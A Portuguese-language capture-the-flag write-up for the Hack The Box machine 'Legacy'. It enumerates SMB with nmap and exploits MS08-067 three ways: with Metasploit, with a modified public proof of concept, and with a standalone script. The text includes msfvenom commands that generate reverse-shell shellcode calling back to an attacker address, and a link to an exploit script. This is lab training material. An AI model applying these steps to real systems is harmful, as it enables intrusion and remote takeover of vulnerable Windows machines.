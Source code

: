 ```yaml
---
title: "Hack The Box - Legacy"
tags: [Windows,Easy,Msfvenom,Metasploit Framework,MS08-067]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_1.png)

Link: <https://www.hackthebox.eu/home/machines/profile/2>

# Enumeração

## Primeiro passo é rodar o nmap contra a máquina, para verificar quais portas estão abertas e quais serviços estão sendo disponibilizados pelas portas.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_nmap.png)

### Explicação de cada parâmetro do Nmap

> -sC --> Rodar alguns scripts padrão em cada porta

> -sV --> Levantar qual serviço está rodando na porta

> -Pn --> Já considera o host ativo

### Verificamos que temos 2 portas aberta no servidor e 1 fechada

> Possivelmente portas relacionadas a um servidor samba: 139 e 445

> Porta 3389 que está fechada é por que algum firewall está bloqueando, então o retorno do nmap é diferente

## Enumeração das portas 139 e 445

Rodamos novamente o nmap com a opçõa `--script vuln` na porta 445, pra procurar por possíveis vulnerabilidades no servidor samba

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_nmap2.png)

Encontramos que ele possivelmente está vulnerável ao *MS08-067*

# Primeiro modo de explorar --> Metasploit Framework

### Procuramos pelo exploit no Metasploit Framework

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_msf.png)

### Configuramos o exploit

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_msf1.png)

### Executamos o exploit e ganhamos acesso

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_msf2.png)

#### Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_user.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_root.png)

# Segundo modo de explorar --> Sem o Metasploit Framework

### Pesquisamos pela vulnerabilidade no Google, pra encontrarmos exploits

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_google.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_exploitdb.png)

### Copiamos ela para a Kali e verificamos como o exploit funciona

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_exploit.png)

Verificamos que devemos alterar o `shellcode`

Com o `msfvenom` criamos um novo shellcode para ser executado

> msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.119 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_exploit2.png)

Como podemos verificar o tamanho dele deu *388* e o que está na PoC deu *380* ou seja, devemos apagar *8* nops para ele funcionar

### Fazemos as alterações e colocamos nosso shell dentro do exploit

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_exploit1.png)

### Executamos o exploit (lembrar de deixar a conexão reversa aberta com o nc) recebemos a shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_exploit3.png)

# Terceiro modo de explorar --> Sem o handler, recebendo uma conexão do nc

Nesse caso iremos utilizar esse exploit, uma vez que com ele não precisamos nos preocupar com alterar a quantidade de Nops, facilitando o trabalho

> https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py

No segundo caso não daria para utilizarmos o `nc` pois o shellcode que foi gerado é `Staged` ou seja, assim que ele se conecta na nossa máquina ele vai tentar baixar o resto do exploit para executar e nos dar uma conexão reversa.

Agora vou criar um shellcode `Stageless` que vai inteiro já para a conexão, vamos perceber que ele é maior que o `Staged` isso se da por que tudo que o sistema precisa para nos dar um shell reverso já está incluso nele

### Criando um shellcode `Stageless` no msfvenom

> msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.119 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -a x86 --platform windows -v shellcode

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_exploit4.png)

### Colocamos no exploit nosso shellcode gerado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_exploit5.png)

Verificamos como executar o exploit

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_exploit6.png)

> Windows XP English --> 6

### Executamos o exploit (lembrar de deixar a conexão reversa aberta no nc) e recebemos o shell reverso

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-legacy/Legacy_exploit7.png)
